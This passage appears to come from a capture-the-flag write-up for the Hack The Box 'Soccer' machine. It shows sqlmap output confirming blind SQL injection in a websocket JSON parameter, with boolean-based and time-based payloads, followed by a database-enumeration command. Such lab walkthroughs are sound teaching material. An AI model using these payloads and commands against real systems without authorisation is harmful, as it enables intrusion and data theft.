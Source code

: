 ```bash
[18:28:15] [INFO] testing 'MySQL UNION query (42) - 1 to 20 columns'
[18:28:25] [INFO] testing 'MySQL UNION query (42) - 21 to 40 columns'
[18:28:31] [INFO] testing 'MySQL UNION query (42) - 41 to 60 columns'
[18:28:35] [INFO] testing 'MySQL UNION query (42) - 61 to 80 columns'
[18:28:40] [INFO] testing 'MySQL UNION query (42) - 81 to 100 columns'
[18:28:45] [INFO] checking if the injection point on (custom) POST parameter 'JSON id' is a false positive
(custom) POST parameter 'JSON id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 346 HTTP(s) requests:
---
Parameter: JSON id ((custom) POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: {"id": "94530 AND 6914=6914"}

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: {"id": "94530 AND (SELECT 3404 FROM (SELECT(SLEEP(5)))xhYU)"}
---
[18:28:51] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0.12
[18:28:53] [INFO] fetched data logged to text files under '/home/emvee/.local/share/sqlmap/output/soc-player.soccer.htb'
[18:28:53] [WARNING] your sqlmap version is outdated

[*] ending @ 18:28:53 /2024-03-08/



```
We have discovered a SQLi vulnerability. Now we can try to identify the database names.
```bash
┌──(emvee㉿kali)-[~/Documents/HTB/Soccer]
└─$ sqlmap -u ws://soc-player.soccer.htb:9091 --data '{"id": "94530"}' --dbms mysql --batch --level 5 --risk 3 --threads 10 --dbs
        ___
       __H__                                                                             ___ ___[(]_____ ___ ___  {1.7.8#stable}                                                |_ -| . [,]     | .'| . |                                                               
|___|_  ["]_|_|_|__,|  _|                                    
      |_|V...       |_|   https://sqlmap.org                

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 19:58:35 /2024-03-08/

JSON data found in POST body. Do you want to process it? [Y/n/q] Y
[19:58:35] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: JSON id ((custom) POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: {"id": "94530 AND 6914=6914"}

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: {"id": "94530 AND (SELECT 3404 FROM (SELECT(SLEEP(5)))xhYU)"}
---
[19:58:38] [INFO] testing MySQL
```